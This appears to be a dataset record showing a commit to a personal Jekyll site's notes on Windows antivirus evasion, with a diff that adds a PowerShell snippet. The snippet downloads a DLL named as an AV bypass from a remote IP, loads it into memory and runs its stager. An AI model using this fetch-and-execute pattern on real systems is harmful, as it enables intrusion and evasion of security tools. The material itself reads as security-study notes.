

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from notes.md, in a window 1280 px wide and 900 px high, scrolled down 14380 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update notes.md

````diff
--- a/notes.md
+++ b/notes.md
@@ -664,3 +664,13 @@
 <p align="center">
   <img src="/assets/posts/2021-03-01-Windows-Evasion/cov4.JPG">
 </p>
+
+
+we could also download the DLL from a remote location as follow below:
+
+
+```poershell
+PS > $dll = (new-object net.webclient).DownloadData("http://192.168.152.100:1234/monk-Avbypass.dll)
+PS > [System.Reflection.Assembly]::Load($dll)
+PS > [MonkStager.MonkStager]::Execute()
+```
````
